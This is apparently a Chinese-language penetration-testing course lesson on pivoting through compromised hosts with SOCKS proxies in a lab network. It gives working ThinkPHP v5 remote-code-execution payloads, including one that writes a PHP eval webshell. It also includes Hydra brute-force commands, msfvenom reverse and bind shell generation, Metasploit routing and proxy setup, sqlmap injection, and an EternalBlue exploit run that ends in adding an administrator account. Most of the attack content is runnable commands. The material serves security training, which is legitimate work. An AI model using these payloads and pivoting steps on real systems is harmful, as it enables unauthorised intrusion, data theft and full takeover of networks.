


# 🛠️ 网络安全就业推荐 - P64：第32天：CobaltStrike Socks代理


## 📖 概述
在本节课中，我们将学习如何在内网渗透测试中，利用已获取权限的机器作为跳板，通过建立Socks代理通道，实现对更深层内网主机的访问和渗透。课程将涵盖从外网突破、内网信息收集、多层网络穿透到最终获取域内主机权限的完整流程。


---

## 🔍 第一阶段：外网信息收集与突破

上一节我们介绍了信息收集的基本思路。本节中我们来看看如何对探测到的开放端口进行深入分析和利用。

当目标主机80端口没有明显信息时，首先考虑进行目录爆破。因为Web服务通常具有特定的目录结构。访问空页面可能只是默认页面（如 `index.htm`），在Web根目录下可能存在其他页面或目录。


以下是通过目录爆破发现敏感目录的示例：
```
探测到 /public 目录
```
访问该目录后，得到了一个 `index.php` 页面，显示系统使用了 **ThinkPHP v5** 框架。


### 端口服务分析与利用思路
对扫描发现的端口（如21, 22, 3306, 8888）进行分析：
*   **21 (FTP) / 22 (SSH)**：尝试弱口令爆破。可以使用 **Hydra** 工具。
    ```bash
    hydra -l username -P password_list ftp://target_ip
    hydra -l username -P password_list ssh://target_ip
    ```
*   **3306 (MySQL)**：若允许远程连接，可尝试弱口令爆破并直接连接数据库。
*   **8888 (宝塔面板)**：访问需要特定的随机路径，若不知道路径则无法进行登录爆破。
*   **80 (HTTP)**：Web服务是常见的突破口。本次利用ThinkPHP v5的远程命令执行漏洞进行突破。


### ThinkPHP v5 RCE漏洞利用
发现ThinkPHP v5框架后，搜索其历史漏洞，发现存在远程命令执行漏洞。该漏洞允许通过命令执行写入一句话木马。


**漏洞利用原理**： 利用 `call_user_func_array` 函数执行回调函数。
*   **POC 1 - 验证漏洞**：执行 `phpinfo()`。
    ```php
    ?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1
    ```
    页面输出PHP信息，证明存在命令执行。
*   **POC 2 - 执行系统命令**：执行 `whoami` 命令。
    ```php
    ?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=whoami
    ```
    返回 `www-data`，确认当前权限。
*   **POC 3 - 写入WebShell**：写入一句话木马文件。
    ```php
    ?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=file_put_contents&vars[1][]=shell123.php&vars[1][]=<?php @eval($_POST['cmd']);?>
    ```
    成功写入 `shell123.php` 文件。


通过中国菜刀或蚁剑等工具连接该WebShell，成功获取了外网服务器的控制权。


---


## 🕵️ 第二阶段：内网信息收集与横向移动





上一节我们成功获取了外网服务器的Shell。本节中我们来看看如何以这台服务器为跳板，进行内网渗透。


### 主机信息收集
首先对已控制的Linux主机进行信息收集，使用 `ifconfig` 命令发现两个网卡：
*   `eth0`：外网IP (78.66.xxx.xxx)
*   `eth1`：内网IP (192.168.22.1)


发现内网网段 `192.168.22.0/24`，意味着这台机器可以访问该内网。


### 内网存活主机探测
下一步是探测 `192.168.22.0/24` 网内存活的主机。在内网中，使用Ping扫描是较快的方法。


以下是用于Ping扫描的Shell脚本：
```bash
#!/bin/bash
for i in {1..254}
do
    ip="192.168.22.$i"
    ping -c 1 -W 1 $ip > /dev/null 2>&1
    if [ $? -eq 0 ]; then
        echo "$ip is OK"
    else
        echo "$ip is NO"
    fi
done
```
**脚本说明**：
*   `-c 1`：发送1个ping包。
*   `-W 1`：等待1秒超时。
*   `> /dev/null 2>&1`：将标准输出和错误输出重定向到空设备，不显示。
*   通过 `$?` 判断上一条命令的退出状态，0表示成功（主机存活）。


将脚本上传至目标服务器的 `/tmp` 目录（该目录通常权限为777），添加执行权限并运行：
```bash
chmod +x ping_scan.sh
./ping_scan.sh > ip_list.txt
```
扫描发现除了本机（192.168.22.1）外，主机 `192.168.22.2` 存活。


---


## 🔄 第三阶段：建立代理通道与内网穿透


上一节我们发现了内网存活主机。本节中我们来看看如何访问和测试这些内网主机。


### 反弹Shell到MSF
为了使用更强大的工具（如MSF的端口扫描模块），先将获取的WebShell反弹到Metasploit框架。

1.  **生成Linux木马**：使用 `msfvenom` 生成ELF格式的反弹Shell。
    ```bash
    msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=your_ip LPORT=6667 -f elf -o mngy.elf
    ```
2.  **上传并执行**：将 `mngy.elf` 上传至目标服务器 `/tmp` 目录，添加执行权限并运行。
    ```bash
    chmod +x mngy.elf
    ./mngy.elf
    ```
3.  **MSF设置监听**：在MSF中设置对应的Payload进行监听，成功接收到 `meterpreter` 会话（session 5）。

### 添加路由与建立Socks代理
现在需要通过MSF会话访问内网 `192.168.22.0/24` 网段。


1.  **添加路由**：告诉MSF，访问 `192.168.22.0/24` 网段的流量需要通过session 5转发。
    ```bash
    run autoroute -s 192.168.22.0/24
    ```
2.  **启动Socks5代理服务**：在MSF中启动一个Socks5代理服务器，监听在本地的1080端口。
    ```bash
    use auxiliary/server/socks_proxy
    set VERSION 5
    run
    ```
3.  **配置代理工具**：在攻击机上配置工具（如浏览器、Nmap）通过Socks5代理（127.0.0.1:1080）进行访问。

**流量走向**：攻击机工具 -> 本地1080端口（Socks代理）-> MSF框架 -> 通过session 5（跳板机）-> 目标内网主机。


### 测试代理通道
使用 `proxychains` 工具让命令行程序走代理。
```bash
proxychains curl http://192.168.22.2
```
成功访问到内网主机 `192.168.22.2` 的Web页面，证明代理通道建立成功。

---


## 🎯 第四阶段：内网纵深渗透





上一节我们建立了访问内网的通道。本节中我们来看看如何对内网主机进行渗透。


### 扫描内网主机端口
通过代理通道，使用Nmap扫描内网主机 `192.168.22.2` 的开放端口。
```bash
proxychains nmap -sT -Pn 192.168.22.2
```
**参数说明**：
*   `-sT`：TCP连接扫描。
*   `-Pn`：跳过主机发现（Ping扫描），因为ICMP流量可能无法通过代理。


扫描发现该主机开放了80端口。


### 渗透内网Web服务
访问 `192.168.22.2:80`，发现是一个CMS系统。通过搜索历史漏洞，发现存在SQL注入。


1.  **SQL注入获取后台密码**：使用 `sqlmap` 通过代理进行注入测试。
    ```bash
    proxychains sqlmap -u "http://192.168.22.2/vuln.php?id=1" --batch
    ```
    成功跑出管理员账号密码。
2.  **登录后台并写入WebShell**：找到后台登录地址，使用获取的密码登录。在CMS的模板编辑功能中，向首页文件写入PHP一句话木马。
3.  **连接WebShell**：使用中国菜刀或蚁剑，配置Socks5代理后，成功连接内网主机的WebShell。


### 信息收集与发现新网段
在 `192.168.22.2` 主机上执行 `ifconfig`，发现其还有另一张网卡，处于 `192.168.33.0/24` 网段。这意味着存在更深层的内网。


### 多层网络穿透
主机 `192.168.22.2` 无法直接出网，因此使用正向Shell将其连接到MSF。


1.  **生成正向Shell木马**：
    ```bash
    msfvenom -p linux/x64/meterpreter/bind_tcp LPORT=6668 -f elf -o mngy2.elf
    ```
2.  **上传并执行**：在 `192.168.22.2` 上执行该木马，监听6668端口。
3.  **MSF连接正向Shell**：在MSF中使用 `bind_tcp` payload连接该端口，获得新的session（session 7）。
4.  **添加新路由**：为新的session添加通往 `192.168.33.0/24` 网段的路由。
    ```bash
    run autoroute -s 192.168.33.0/24
    ```


### 渗透最终目标
通过代理扫描 `192.168.33.33`，发现开放了445端口。


1.  **利用永恒之蓝漏洞**：使用MSF的 `ms17_010_eternalblue` 模块攻击该主机。
    ```bash
    use exploit/windows/smb/ms17_010_eternalblue
    set RHOSTS 192.168.33.33
    set payload windows/x64/meterpreter/bind_tcp
    exploit
    ```
    成功获取 `SYSTEM` 权限的Shell（session 8）。
2.  **添加用户并远程桌面连接**：通过获取的Shell添加管理员用户，并利用其开放的3389端口进行远程桌面连接。
    *   **方法一（Linux）**：使用 `rdesktop` 通过代理连接。
        ```bash
        proxychains rdesktop 192.168.33.33
        ```
    *   **方法二（Windows）**：使用 `Proxifier` 等全局代理工具，让 `mstsc.exe`（远程桌面连接）的流量走Socks5代理，然后进行连接。


---


## 📝 总结
本节课我们一起学习了从外网到内网的完整渗透流程：
1.  **外网突破**：通过Web漏洞（ThinkPHP RCE）获取外网服务器Shell。
2.  **信息收集**：发现内网网段，探测存活主机。
3.  **代理搭建**：将Shell反弹至MSF，添加路由并建立Socks5代理通道，实现内网穿透。
4.  **横向移动**：通过代理渗透内网主机，并以此为新的跳板，向更深层网络（192.168.33.0/24）渗透。
5.  **最终控制**：利用系统漏洞（MS17-010）获取域内最终目标主机的最高权限，并通过代理实现远程桌面控制。


核心在于利用 **已控主机作为跳板**，通过 **路由** 和 **Socks代理** 将攻击流量逐层转发，最终实现对多层内网结构的渗透。